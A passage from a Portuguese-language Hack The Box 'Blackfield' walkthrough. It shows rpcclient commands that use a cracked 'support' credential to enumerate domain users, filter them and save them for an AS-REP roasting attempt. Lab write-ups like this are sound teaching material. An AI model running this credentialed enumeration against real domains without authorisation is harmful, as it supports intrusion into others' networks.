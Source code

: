 ![Permissões SMB do usuário support](Assets/HTB-Windows-Hard-Blackfield/smb-support.png)

## RPC

Vamos então voltar ao primeiro passo. Enumeração via RPC, mas desta vez, com as credenciais do usuário "support"

```powershell
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers"
```

Bingo! Desta vez tenho resposta. E bem grande! Todos os usuários a nível de domínio!. Isso significa duas coisas. Significa que posso tentar um novo attack AS-RES Roasting, e significa que posso extrair todas as informações de domínio.

```powershell
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers" | awk '{print$1}' | grep -oP "\[.*?\]" | tr -d '[]'
```

Todos os usuários podem ser listados com este comando... mas para limpar um pouco os usuários desnecessários para a resolução da máquina, afim de termos outputs mais "cleans", vou já eliminar todos os usuários BLACKFIELD\*.

```powershell
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers" | awk '{print$1}' | grep -oP "\[.*?\]" | tr -d '[]' | grep -v "BLACKFIELD"

#>  Administrator
#>  Guest
#>  krbtgt
#>  audit2020
#>  support
#>  svc_backup
#>  lydericlefebvre

rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers" | awk '{print$1}' | grep -oP "\[.*?\]" | tr -d '[]' | grep -v "BLACKFIELD" > contents/users
```
